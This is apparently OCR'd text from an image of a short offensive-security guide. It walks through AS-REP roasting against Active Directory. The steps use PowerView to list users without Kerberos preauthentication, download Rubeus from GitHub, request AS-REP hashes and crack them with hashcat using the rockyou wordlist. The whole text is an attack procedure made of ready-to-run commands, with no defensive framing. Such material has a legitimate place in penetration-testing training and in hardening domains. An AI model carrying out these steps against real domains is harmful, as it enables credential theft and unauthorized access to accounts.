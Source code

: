 ### **USING POWERVIEW TO ENUMERATE ACCOUNTS**

1.  Import PowerView module  
    `Import-Module .\PowerView.ps1`
2.  Find users with "Do not require Kerberos preauthentication" flag  
    `Get-DomainUser -PreAuthNotRequired`
3.  Requesting AS-REP for Targeted Users  
    Once you have identified vulnerable accounts request the AS-REP.
4.  Download Rubeus from the GitHub releases page:  
    `Invoke-WebRequest -Uri "https://github.com/GhostPack/Rubeus/releases/download/v1.5.0/Rubeus.zip" -OutFile "Rubeus.zip"`
5.  Unzip the downloaded file to a directory of your choice:  
    `Expand-Archive -Path "Rubeus.zip" -DestinationPath ".\Rubeus"`
6.  Request AS-REP:  
    `.\Rubeus.exe asreproast`
7.  Save the AS-REP hashes to a file named  
    `asrep_hashes.txt`.
8.  Use Hashcat to crack the hashes with a wordlist such as rockyou.txt:  
    `hashcat -m 18200 -a 0 asrep_hashes.txt /usr/share/wordlists/rockyou.txt`